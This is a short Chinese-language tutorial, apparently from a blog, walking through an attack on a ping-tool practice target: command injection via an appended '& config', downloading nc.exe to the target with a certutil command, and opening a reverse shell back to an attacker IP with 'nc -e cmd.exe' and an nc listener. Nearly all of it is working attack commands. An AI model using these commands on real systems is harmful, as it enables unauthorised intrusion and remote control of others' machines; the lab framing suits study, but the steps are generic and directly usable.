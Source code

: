 ## 获取目标权限

通过指令注入来获取权限，以一个简单的ping工具靶场为例，使用如下输入获取权限

    192.168.10.11 & config

>后续均使用ip地址 + 的组合来拼接指令，省略了重复部分

## 将nc工具下载至目标

使用 [棱角社区工具](https://forum.ywhack.com/bountytips.php?download) 中的**文件下载**来生成对应系统的文件下载命令并使用，例如

    certutil.exe -urlcache -split -f http://127.0.0.1:8080/nc.exe n.exe

##  反向连接

用nc工具进行shell反弹，让目标反向连接至主机，从而获得操作权限

    n.exe <攻击者IP> <监听端口> -e cmd.exe

- `<攻击者IP>`是攻击者主机 IP，需提前使用`nc -lvnp 端口`监听
- `-e cmd.exe`表示连接成功后，将命令行绑定到连接中，实现交互式 Shell
